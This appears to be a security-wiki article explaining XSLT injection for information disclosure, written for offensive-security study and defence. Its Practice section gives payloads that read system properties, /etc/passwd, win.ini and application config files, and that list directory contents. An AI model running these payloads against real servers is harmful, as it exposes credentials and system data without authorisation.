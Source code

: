 ```yaml
---
title: 'XSLT Injection: Information Disclosure Explained'
description: Learn about XSLT injection techniques for information disclosure, including
  environment variable extraction and file access.
keywords:
- XSLT injection
- information disclosure
- environment variables
- file access
- system properties
- sensitive data
- security vulnerabilities
- configuration files
- XML transformation
---
```


# Information Disclosure

## Context

This article aims to demonstrate how attackers can leverage XSLT (Extensible Stylesheet Language Transformations) injection to disclose sensitive information from server environments. By crafting specific XSLT payloads, attackers can extract data such as environment variables, system properties, file contents, and more. This knowledge assumes familiarity with XSLT processing, XML parsing, HTTP requests, and the basics of XSLT Injection.

## Theory

### XSLT Transformation and Information Exposure

XSLT is a language primarily used to transform XML data into different formats. However, when an application improperly handles user-supplied XSLT or XML, an attacker could inject XSLT code that accesses sensitive server-side resources. If XSLT processors are not sandboxed correctly, they might expose various system properties, environment variables, and contents of files.

In a typical attack sequence, the attacker injects XSLT code to access or enumerate sensitive data through the transformation's output.

### Sensitive Data Accessible via XSLT Injection

The vulnerability arises from the unrestricted use of XSLT functions such as `document()` and `system-property()`, which, if executed on the server, can return sensitive information. The injected XSLT executes on the server, and any extracted data is often returned via the HTTP response. This scenario assumes that the application trusts user-supplied XSLT or XML input, thus permitting arbitrary execution of templates and leading to potential information disclosure.

### Common Disclosure Vectors in XSLT Injection

Typical targets for XSLT injection in information disclosure attacks include environment variables, system properties, file contents, directory listings, and configuration files. Crafted XSLT payloads can be designed to enumerate files, extract environment variables, or reveal sensitive configuration data.

## Practice

### Extracting Environment Variables via XSLT Injection

To extract environment variables and system properties using XSLT Injection, attackers can execute carefully crafted payloads like these:

- Retrieve the operating system's name:
  ```xml
  <xsl:value-of select="system-property('os.name')"/>
  ```

- Discover the home directory of the user running the process:
  ```xml
  <xsl:value-of select="system-property('user.home')"/>
  ```

Upon executing these payloads, the attacker obtains critical environment or system property values from the server.

### Reading Arbitrary Files with `document()`

The `document()` function in XSLT can be misused to access arbitrary files on the server:

- Attempt to read the contents of `/etc/passwd` on a Unix-like system:
  ```xml
  <xsl:copy-of select="document('/etc/passwd')"/>
  ```

- Attempt to read the contents of `win.ini` on a Windows system:
  ```xml
  <xsl:value-of select="document('C:/Windows/win.ini')"/>
  ```

Through these payloads, attackers can retrieve file contents directly from the server's filesystem.

### Directory Listing and File Enumeration via XSLT

An attacker might list files and directories using an XSLT payload designed for enumeration:

- Enumerate files and directories under `/etc/` on Unix-like systems:
  ```xml
  <xsl:for-each select="document('file:///etc/')/*">
      <xsl:value-of select="name()"/>
      <xsl:text>&#10;</xsl:text>
  </xsl:for-each>
  ```

Executing this payload allows the attacker to enumerate the files and directories present on the server.

### Leaking Application Configuration via XSLT

Sensitive application configurations can be exposed by reading configuration files:

- Attempt to read an application's configuration file:
  ```xml
  <xsl:value-of select="document('/path/to/application/config.xml')"/>
  ```

This technique provides the attacker access to application configurations or secrets embedded within the files.

### Exposing XSLT Debug Information

XSLT's debugging capabilities can also be leveraged to disclose server details:

- Force XSLT processor to display debug information:
  ```xml
  <xsl:message terminate="no">Debug: 
      <xsl:value-of select="system-property('java.version')"/>
  </xsl:message>
  ```

Such a payload can help the attacker gain insights into the server environment and specifics about the XSLT engine in use.

## Tools

- **Burp Suite**
- **curl**
- **xsltproc**